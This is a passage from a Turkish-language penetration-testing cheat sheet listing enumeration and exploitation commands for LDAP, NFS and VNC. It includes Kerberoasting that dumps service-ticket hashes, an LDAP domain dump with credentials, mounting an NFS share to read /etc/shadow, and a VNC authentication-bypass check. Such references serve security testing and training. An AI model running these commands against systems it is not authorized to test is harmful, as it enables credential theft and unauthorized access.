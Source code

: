 
## 3. Lightweight Directory Access Protocol (LDAP)
### Gelişmiş Enumeration
**Gizli Nesneleri Listeleme:**
```bash
ldapsearch -x -h <hedef-ip> -D "<kullanıcı-adı>" -w <şifre> -b "CN=Configuration,DC=ornek,DC=com" | grep -i "AdminCount"
```
**Kullanıcı Parola Politikasını Çıkarma:**
```bash
ldapdomaindump -u <kullanıcı-adı> -p <şifre> ldap://<hedef-ip>
```

### Gelişmiş Exploitation
**Kerberoasting:**
```bash
GetUserSPNs.py -request -dc-ip <hedef-ip> <domain>/<kullanıcı-adı> -outputfile hashes.txt
```
**Zayıf İzinleri Kötüye Kullanma:**
```bash
adexplorer.exe <LDAP URL>
```

---

## 4. Network File System (NFS)
### Gelişmiş Enumeration
**Paylaşılan Dosya Sistemlerini Tarama:**
```bash
rpcinfo -p <hedef-ip>
```
**Dosya İzinlerini Analiz Etme:**
```bash
nfs-ls <hedef-ip>:/paylasilan_path
```

### Gelişmiş Exploitation
**NFS Yanlış Yapılandırması ile Ayrıcalık Yükseltme:**
```bash
mount -t nfs -o nolock <hedef-ip>:/ /mnt/nfs
cd /mnt/nfs
cat /etc/shadow
```

---

## 5. Virtual Network Computing (VNC)
### Gelişmiş Enumeration
**Kimlik Doğrulama Atlamasını Kontrol Etme:**
```bash
vncviewer -passwd none <hedef-ip>
```
**Şifreleme Seviyelerini Analiz Etme:**
```bash
nmap -p 5900 --script vnc-info,vnc-title <hedef-ip>
```
